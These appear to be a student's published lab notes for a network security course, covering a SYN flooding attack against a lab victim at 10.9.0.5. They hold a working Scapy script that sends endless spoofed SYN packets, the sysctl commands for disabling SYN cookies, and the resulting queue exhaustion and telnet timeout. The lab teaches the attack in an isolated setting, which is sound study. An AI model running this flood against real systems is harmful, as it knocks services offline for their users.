 ```yaml
---
{"tags":["lab","Security"],"week":3,"creation date":"2023-10-01 11:15","modification date":"Sunday 1st October 2023 11:15:05","reviewed":null,"summary":null,"course_name":"Network Security","publish":true,"dg-publish":true,"permalink":"/study/50-020-network-security/4-1-tcp-ip-attack/","dgPassFrontmatter":true,"created":"2023-10-01T11:15:05.000+08:00","updated":"2023-10-31T00:11:26.000+08:00"}
---
```


# Task 1: SYN Flooding Attack
##  Prerequisites
### Minimize the size of the queue
`sysctl net.ipv4.tcp_max_syn_backlog` to check the size of the queue that it can store the half open connection
Try to change it to a smaller number such that we dont have to wait for too long before the queue gets full
you can change the queue size using `sysctl net.ipv4.tcp_max_syn_backlog=80`

### Disable SYN Cookie
On your victim machine `SYNC cookies` have to be disabled for the attack to be successful. To check the SYN Cookie status, `sysctl -a | grep syncookies`

To turn off `SYNC Cookie` run `sysctl -w net.ipv4.tcp_syncookies=0` set to `1` to enable
## Code
```python
from scapy.all import IP, TCP, send
from ipaddress import IPv4Address
from random import getrandbits

ip = IP(dst="10.9.0.5")
tcp = TCP(dport=23,flags="S")
pkt = ip/tcp
while True:
  pkt[IP].src = str(IPv4Address(getrandbits(32)))
  pkt[TCP].sport = getrandbits(16)
  pkt[TCP].seq = getrandbits(32)
  send(pkt,verbose=0)
```

## Result
### Attacker
On the attacker machine run the code to carry out the SYNC flood attack on the victim machine on `10.9.0.5` with port `23`
![Pasted image 20231001111701.png](/img/user/Study/50.020%20Network%20Security/attachments/Pasted%20image%2020231001111701.png)
### Number of items in the queue
We can check the queue size using `netstat -tna | grep SYN_RECV | wc -l`, we have set the queue size to `80` previously and we will get the queue capacity of about 60, which is fully taken up
![Pasted image 20231001113509.png](/img/user/Study/50.020%20Network%20Security/attachments/Pasted%20image%2020231001113509.png)
### Telnet
We will then try to `telnet` into the victim machine, using `telnet <IP> <port>` 
Since the queue is flooded with half open connections, telnet keeps `trying` to reach the host, but it could not get into the queue and hence after a few minute, the telnet request `timed out`
![Pasted image 20231001111716.png](/img/user/Study/50.020%20Network%20Security/attachments/Pasted%20image%2020231001111716.png)
